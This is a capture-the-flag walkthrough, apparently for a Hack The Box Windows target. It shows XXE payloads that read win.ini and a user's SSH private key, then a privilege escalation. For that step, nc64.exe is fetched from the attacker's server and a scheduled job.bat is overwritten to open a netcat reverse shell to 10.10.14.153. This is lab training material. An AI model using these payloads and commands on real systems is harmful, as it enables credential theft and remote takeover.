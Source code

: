 # Markup
## User Flag
When starting a box, it's always a good idea to run nmap to enumerate services on the target. Running `nmap -sV -sC 10.129.81.36`
shows us the service versions and might point us toward known vulnerabilities.

![Nmap results TCP](images/1image.png)

Port 22 is running ssh, port 80 is running http and port 443 is running https. We see that the httponly flag is not set for neither port 80 nor 443, so there is a chance we can steal cookies later on. 

Let’s open BurpSuite and set `http://10.129.81.36/` as the target.  We are taken to this login page: 

![Webpage](images/2image.png)

Let’s set up the BurpSuite intercept and try `admin` as the username and `password` as the password.

The website shows us: 

![Webpage Home](images/3image.png)

If we go to the “Order” page, then we find out we can put in some user input.

![Order page](images/4image.png)

Burpsuite shows us the below when we put in user input. 

![Burpsuite Order page](images/5image.png)

It seems likely that we can run an XXE attack. This [hacktricks page](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html) shows us how to do XXE on a page that already has xml. 

In particular we're going to look at this example they provided to check whether XXE is possible: 

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

From our nmap scan, we know that the target is running Windows so we will have to change the filepath. Modifying the script for our purposes gives us the following: 

```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]> 
<order><quantity>3</quantity><item>&test;</item><address>blahblah</address></order>
```

Now, we can submit an order, intercept the request via Burpsuite, replace the XML portino with this code and receive the output: 

![win.ini results](images/6image.png)

This means that XXE is working properly. Let's modify the script so that we can get something more useful. 

Looking at the source code for the page, we find that it was last modified by "Daniel", a possible user for the system:

![Daniel's name in source code](images/7image.png)

Perhaps we can try the same XXE attack above, instead checking the `C:Windows\Users\Daniel` folder. Since the box has an ssh service running, it would be great if we could somehow find Daniel's private key. This is normally located in the user's home directory under `.ssh\id_rsa`. We can use the following script to see if it exists: 

```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]> 
<order><quantity>3</quantity><item>&test;</item><address>blahblah</address></order>
```
Intercepting the traffic on Burpsuite, we see that the key does exist

![Daniel's RSA Key](images/8image.png)

We can copy and paste this key into a file named `id_rsa_daniel.key`. To `ssh` using this key, we can run `ssh -i id_rsa_daniel.key daniel@10.129.81.36` assuming we are in the folder that contains `id_rsa_daniel.key`. 

This gets us into Daniel's directory: 

![Daniel's Shell](images/9image.png)

After some brief investigation, we find the user flag in  in `C:\Windows\Users\Daniel\Desktop\user.txt`. 

## Root Flag
There doesn't seem to be much to go off of to escalate privileges. Daniel's user account doesn't have special permissions, so instead, let's look for some interesting files on the machine. Starting with `C:\` we immediately see `C:\Log-Management`, which isn't a default folder. In particular, we find `C:\Log-Management\job.bat`. 

![job.bat](images/10image.png)

It looks like this script is run as `Administrator`, so if we can utilize its permissions, we may be able to open an Administrative shell. Notice that the script seems to run the `wevtutil.exe` executable. A quick Google search shows that this executable is used to manage and interact with the Windows Log system. Running a quick `ps` shows us that the wevtutil.exe executable is running, which implies that the `job.bat` script is also running constantly for log cleanup. 

If we can modify `job.bat`, we can open a revese shell. For this, we need to get the `nc64.exe` executable on the windows machine. We will follow these steps:
1. Download `nc64.exe` from github using `wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe?raw=true`. You will need to rename the file to just nc64.exe. Put it on your local kali box. 
2. Navigate to the folder storing the exe file on Kali linux
3. Set up a server using the following command: `sudo  python -m http.server 1337`. Now this will be reachable by the target machine (see step 4)
4. On target machine run the following: `powershell -c wget http://10.10.14.153:1337/nc64.exe -outfile nc64.exe` to get the executable on the target system.
5. Start the netcat listener on kali linux using `nc -lnvp 4444`

Now we need to modify the jobs.bat file to run “.\nc64.exe -e cmd.exe 10.10.14.153 4444” to open the reverse shell. We can do this by running: 

`echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.153 4444 > C:\Log-Management\job.bat`

You’ll note that after running this, a reverse shell automatically opens because the job.bat file is already running. Now we can traverse to `C:\Users\Administrators\Desktop\root.txt` to find the root flag. 

